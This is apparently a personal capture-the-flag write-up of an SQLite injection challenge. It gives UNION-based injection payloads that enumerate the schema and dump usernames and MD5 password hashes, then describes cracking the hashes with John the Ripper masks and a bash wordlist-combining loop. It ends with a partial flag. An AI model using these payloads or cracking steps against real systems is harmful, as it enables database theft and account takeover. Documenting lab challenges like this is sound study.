 ### This is a very cool challenge, I didn't solve it (nearly), but, nah, just write down to remember stuff
This is a SQLite injection, how do I know it was SQLite, well fuzzing and sqlmap

So the syntax of the payload is the same but the way to extract is different:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md

With this I get the table name is users:
%22 UNION SELECT tbl_name,2 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' -- -

And with this I get the column name:
%22 UNION SELECT 1,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='users' -- -
```
CREATE TABLE users (
	username text primary key not null,
	password_hash text not null,
	hint text not null,
	bio text not null)
  ```
  From this just normal payload:
  %22 UNION SELECT username,password_hash FROM users -- -
  So what I encounter is a bunch of md5 hash with rules
  <img src="https://github.com/phulelouch/WRITE_UP/blob/master/SQL_Injection/login_page.png">
  <img src="https://github.com/phulelouch/WRITE_UP/blob/master/SQL_Injection/login_page.png">
 With that it mean we have to crack it with its rule
 - The easiest was the noob password, just google it and login 
 - Then come to the phone number, using john the ripper with mask for rule:
 	john --format=raw-md5 flag2.txt --mask=?d?d?d-?d?d?d-?d?d?d?d --fork=12
 - Next it would be Greek God + My least favorite US, so what I did was listing out some of the most popular Greek Gods and concat it with script, and just bruteforce it (faster)
 ```
 while read line; do
	while read liness; do
		echo $line$liness | tr -d ' ' 
	done < "/home/phulelouch/Desktop/US.txt"
done < "/home/phulelouch/Desktop/god.txt"
 ```
- The next one is harder, with 12 digit numbers and md5 hash, I have to create a file list of that number in md5 hash and using them as list for John
- The final one I can not solve but it is interesting: I follow 2 article
https://blog.bitcrack.net/2013/09/cracking-hashes-with-other-language.html
https://vxempire.xyz/repo/Hash%20Crack.pdf

So 4 parts combie the result would be like this uiuctf{Dump_4nd_unh45h_637_d4t_
